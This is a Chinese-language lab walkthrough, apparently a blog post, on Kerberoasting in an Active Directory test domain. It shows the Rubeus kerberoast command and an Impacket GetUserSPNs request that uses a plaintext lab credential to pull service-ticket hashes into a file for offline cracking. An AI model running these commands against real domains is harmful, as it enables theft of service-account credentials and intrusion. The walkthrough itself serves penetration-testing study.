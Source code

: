   
**工具判断加密类型**  
  
  
Rubeus berkeroast  
  
  
impacket-getuserspns  
  
  
我们先把Rubeus工具上传一下。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU71QUgxNWfakLYowxTics6oBCA0eXiahNju3K6gdibyVNM3cQ7nTP4wJzlg/640?wx_fmt=png&from=appmsg "")  
  
  
shell Rubeus kerberoast  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7OibOyTarRxXDaZvyJlQr6sFlnYPPOORmlTpaVibW4fxfyneDHd43KPyw/640?wx_fmt=png&from=appmsg "")  
  
  
此类攻击方法在当前主机不行，因为我们之前看过，加密类型不是RC4的  
  
  
那么接下来我们换一个域环境-0day.org，上线有与kali同一网段的jack主机  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7tvPhCklLVP7UYs0oQZibS4mss4mc9wicwlrMavbBic9VI9Tf5XicasBlHw/640?wx_fmt=png&from=appmsg "")  
  
```
#直接用工具判断票据加密类型
shell Rubeus kerberoast
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7yruo9RxeBGodep3TfMw20VQic3icA2z219geG1XbYibJ8ZiaD5K6yv8whg/640?wx_fmt=png&from=appmsg "")  
  
  
存在攻击的点！以上是用Rubeus工具，接下来用impacket套件试试  
  
  
首先在信息收集阶段，我们需要知道DC的ip地址  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7ia08X6ibJ65iaEibPW8rMcjM4vlMSJbiaUnwhsibVsbOf1NCpkQPWic3PwibGg/640?wx_fmt=png&from=appmsg "")  
  
```
请求所有SPN服务器，并找到能破解的票据格式保存到hash.txt
python GetUserSPNs.py -request -dc-ip 192.168.3.142 0day.org/ja
ck:admin!@#45 -outputfile hash.txt
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7uw7fzVqjS7rIkcM82H3TDX5rnJawGyLmqEwk8Nj8XXvfib3hgczngng/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7K1VNzjq75ueX6ficxzROMVzgotYdzpdrqe5nkib4w5S7DlNUbibBicu79Q/640?wx_fmt=png&from=appmsg "")  
  
  
其实我们直接klist也可以知道加密类型  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7kUJlSCciaBPWPflxrRj00AWJrvEAAvFKmJcx9CLewmlWKDXB5SXEOxw/640?wx_fmt=png&from=appmsg "")  
  